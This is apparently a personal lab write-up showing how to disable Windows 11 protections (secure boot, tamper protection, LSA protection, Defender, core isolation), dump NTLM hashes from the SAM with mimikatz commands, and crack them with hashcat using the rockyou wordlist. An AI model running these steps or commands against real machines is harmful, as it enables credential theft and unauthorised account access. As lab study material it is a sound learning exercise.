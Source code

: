 # Introduction

Credential dumping is a popular method attackers use to steal passwords from memory or files. In this lab environment, I will try the different ways of using mimikatz into dumping ntlm hashes in Windows 11 and cracking it using hashcat


## What are these tools?

* **Mimikatz**: A powerful tool that can extract plain-text passwords, hashes, PINs, and Kerberos tickets from memory.

* **Hashcat**: An advanced password recovery tool that uses GPU acceleration to crack password hashes using dictionary, brute-force, rule-based, and hybrid attacks. It's widely used for cracking NTLM, bcrypt, SHA-family, and other common hash formats.

## How can we make mimikatz work?


Given that windows 11 has already implemented a lot of good security posture we need to make our machine less secure to make mimikatz work


* Disabling secure boot

![](../z.attachments/Pasted%20image%2020250727135215.png)

* Disabling Tamper Protection

![](../z.attachments/Pasted%20image%2020250727140325.png)

* Disabling LSA-Protection - **Set - RunAsPPL = 0**

```
Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
```

![](../z.attachments/Pasted%20image%2020250727135742.png)

* Disabling WinDefender using regedit

![](../z.attachments/Pasted%20image%2020250727140503.png)

![](../z.attachments/Pasted%20image%2020250727140519.png)

![](../z.attachments/Pasted%20image%2020250727140531.png)

![](../z.attachments/Pasted%20image%2020250727140543.png)

* Verification

![](../z.attachments/Pasted%20image%2020250727140609.png)

* Disable core isolation
 
 ![](../z.attachments/Pasted%20image%2020250727141958.png)
# Mimikatz usage

* Clone mimikatz

https://github.com/ParrotSec/mimikatz

```
Get-ChildItem | where Name -like "mimi*"
```

![](../z.attachments/Pasted%20image%2020250727141634.png)

* Run an elevated command for mimikatz

```
Start-Process -FilePath '.\mimikatz - Shortcut.link' -Verb RunAs
```

![](../z.attachments/Pasted%20image%2020250727143206.png)

![](../z.attachments/Pasted%20image%2020250727143319.png)

* Check the available commands

```
help
```

![](../z.attachments/Pasted%20image%2020250727142206.png)

* Check the privilege 

```
priviledge::debug
```

![](../z.attachments/Pasted%20image%2020250727143421.png)

* Check the for token privilege

![](../z.attachments/Pasted%20image%2020250727143843.png)

* We need to impersonate a token that has access to kernel mode which is mostly NT Authority

```
token::list /admin
```

![](../z.attachments/Pasted%20image%2020250727144031.png)

* I decided to impersonate this token SID

![](../z.attachments/Pasted%20image%2020250727144200.png)

```
token::elevate /sid:2444 
```

![](../z.attachments/Pasted%20image%2020250727144257.png)

* Check for token privilege

```
token::whoami
```

![](../z.attachments/Pasted%20image%2020250727144443.png)
``
* Try dumping logonpasswords

```
sekurlsa::logonPasswords
```

![](../z.attachments/Pasted%20image%2020250727144644.png)

This method don't work because Win 11 blocked specific driver for mmdrv

![](../z.attachments/Pasted%20image%2020250727144744.png)


* Lets try dumping the hashes

```
lsadump::sam
```

![](../z.attachments/Pasted%20image%2020250727145143.png)

Bingo! got the hashes

# Hashcat usage

* We will try to run this one on hashcat but first lets try some hashcat commands

```
hashcat --help |grep -i ntlm
```

![](../z.attachments/Pasted%20image%2020250727150348.png)

We can see that hashcat has set 1000 for ntlm cracking

```
hashcat -m 1000 hash.txt /usr/shar/wordlists/rockyou.txt
```

![](../z.attachments/Pasted%20image%2020250727150617.png)

Machine has been pwned

![](../z.attachments/Pasted%20image%2020250727150719.png)
